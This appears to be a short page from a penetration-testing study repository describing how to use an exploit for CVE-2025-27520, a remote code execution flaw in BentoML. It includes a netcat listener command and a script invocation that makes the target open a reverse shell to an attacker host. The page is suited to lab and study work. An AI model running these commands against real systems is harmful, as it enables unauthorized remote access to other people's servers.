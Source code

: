 ⚠️ WARNING: This script is provided for educational and authorized penetration testing purposes only. Do not use it on systems you do not own or have explicit permission to test.

🙏 CREDITS: The original script can be found [here](https://github.com/advisories/GHSA-33xw-247w-6hmc).

📚 REFERRENCES:
1. [Remote Code Execution (RCE) Caused by Insecure Deserialization](https://github.com/bentoml/BentoML/security/advisories/GHSA-33xw-247w-6hmc)


## Exploit
1. Start the listener.
   ```bash
   rlwrap nc -lvnp 3000
   ```
   
2. Use the [script](https://github.com/cw-l/oscp/blob/main/CVE-2025-27520/CVE-2025-27520.py) to get a reverse shell. Might have to try out various options to find a working reverse shell.
   ```bash
   python3 CVE-2025-27520.py -t 192.168.198.251 -p 3000 -lhost 192.168.45.248 -lport 3000
   ```

